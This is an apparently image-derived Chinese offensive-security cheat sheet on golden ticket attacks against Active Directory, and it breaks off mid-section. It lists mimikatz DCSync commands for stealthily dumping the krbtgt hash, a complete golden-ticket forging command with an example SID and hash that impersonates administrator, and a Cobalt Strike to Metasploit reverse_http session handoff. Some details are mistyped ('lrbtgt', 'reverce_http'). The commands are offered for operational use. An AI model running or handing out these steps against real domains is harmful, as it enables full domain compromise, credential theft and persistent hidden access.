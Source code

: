 > 黄金票据伪造

- `krbtgt`是域中的一个特殊用户，该用户是用于`Kerberos`身份验证的帐户，获得了该用户的hash，就可以伪造票据进行票据传递

- 使用`lrbtgt`用户生成票据被称为黄金票据（`TGT`）

>  特点

- 需要与DC通信
- 需要`krbtgt`用户的hash（`KDChash`)

#### 获取krbtgt用户hash

- 利用：mimikatz  


- 好处：会模拟域控，向目标请求账号的密码信息。动静很小，不用直接登录域控，也不需要提取NTDS.DIT文件


- 注意：需要域管理员或其他类似的高权限账号

```
mimikatz @lsadump::dcsync /user:krbtgt
或
dcsync god.org god\krbtgt
或
shell wmic useraccount where name="krbtgt" get sid
```

#### 伪造黄金票据

```
使用之前：
mimikatz kerberos::list	  查看所有凭据信息
mimikatz kerberos::purge  清除凭据

命令格式：mimikatz kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt

示例：
mimikatz kerberos::golden /domain:god.org
 /sid:S-1-5-21-1218902331-2157346161-1782232778 /rc4:b097d7ed97495408e1537f706c357fc5 /user:administrator /ptt
```

#### 利用MSF来伪造

1）将会话转交给MSF

```
CS添加监听器：foreign_http
    IP为MSF地址
    
MSF启动监听器：
    handler -H CS服务器地址 -P 监听端口 -p windows/meterpreter/reverce_http
cs上选择对应会话，凭据提取->新建会话
```

2）利用
